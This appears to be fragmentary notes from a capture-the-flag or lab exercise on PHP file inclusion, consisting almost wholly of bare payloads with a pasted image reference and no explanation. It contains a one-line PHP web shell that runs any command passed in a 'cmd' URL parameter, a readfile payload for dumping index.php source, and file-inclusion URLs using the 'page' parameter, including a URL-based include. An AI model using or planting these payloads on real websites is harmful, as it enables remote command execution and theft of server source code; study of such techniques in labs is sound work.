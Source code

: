 ____

![[Pasted image 20241117165345.png]]
```php
<?php
    system($_GET['cmd']);
?>
```


```bash
/?page=admin.inc
```

```php
<?php echo readfile("index.php")?>
```

```bash
/?page=http://localhost/index
```


